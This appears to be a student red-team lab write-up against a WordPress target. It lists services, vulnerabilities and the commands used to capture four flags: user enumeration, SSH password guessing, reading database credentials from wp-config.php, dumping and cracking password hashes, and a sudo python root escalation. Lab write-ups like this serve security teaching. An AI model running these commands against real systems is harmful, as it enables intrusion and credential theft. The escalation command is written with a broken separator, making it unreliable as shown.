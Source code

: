 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/Nmap%20/Nmap_Scan.png "Nmap Scan")

This scan identifies the services below as potential points of entry:
- Target 1
  - List of Exposed Servies: 
  - 22/TCP SSH
  - 80/TCP HTTP
  - 111/TCP rpcbind
  - 139/TCP netbios-ssn
  - 445/TCP netbios-ssn


The following vulnerabilities were identified on each target:
- Target 1
  - List of critical vlunerabilites: 
  - Wordpress Pingback Locator 
  - Usernmae/Password Login Scanner 
  - XMLRPC DoS 
  - GHOST Vulnerability Scanner

![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/WPScan/WPscan_vuln.png "WPscan vulnerabilities")

![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/WPScan/WPscan_users.png "WPscan users")

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: ![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/Flags/Flag_1.png "Flag 1")    
    - **Exploit Used**
      - User Enumeration exploit used to scan the WordPress web application to discover usernames of the WordPress site
      - Command run: wpscan --url http://192.168.1.110/wordpress/ --enumerate u
  - `flag2.txt`: ![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/Flags/Flag_2.png "Flag 2")   
    - **Exploit Used**
      - Used SSH to gain a user shell via the user profile discover during the User Enumeration exploit. Found Flag 2 under Micahel's profile, after guessing the password, in the var/www directory.
      - Command run: ssh Michael@192.168.1.110
  - `flag3.txt`: ![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/Flags/Flag_3.png "Flag 3")    
    - **Exploit Used**
      - Obtained MySQL root credentials in the wp-config.php file via Michael's user profile. Explored the wordpress database to uncover Flag 3 in the WordPress table called wp_posts.  
      - Command run: cat /var/www/html/wordpress/wp-config.php 
      - Command run: mysql -u root -p
      - Command run: show databases;
      - Command run: use wordpress;
      - Command run: show tables;
      - Command run: select * from wp_posts;
  - `flag4.txt`: 
  - ![alt text](https://github.com/Rkelley6045/FinalProject/blob/main/Flags/Flag_4.png "Flag 4")    
    - **Exploit Used**
      - Accessed the WordPress database to abstract the user pw hashes (wp_users table) for both users (Michael and Steven). Exfiltrated the password hashes and ran them against the password cracker John. Secured a user shell under the user Steven, checked user priviledges, ran a python command to escalate to root, and obtain Flag 4 in the root home directory.
      - Command run: use wordpress;      
      - Command run: show tables;
      - Command run: select * from wp_users;
      - Command run: SELECT user_pass FROM wp_users INTO OUTFILE '/home/wp_hashes.txt';
      - Command run: john wp_hashes.txt `from root user on kali`
      - Command run: ssh Michael@192.168.1.110
      - Command run: su steven
      - Command run: sudo -l `check aany utilities which can be used with sudo`  
      - Command run: sudo python -c 'import pty:pty.spawn("/bin/bash")'  `root access command`                     
       
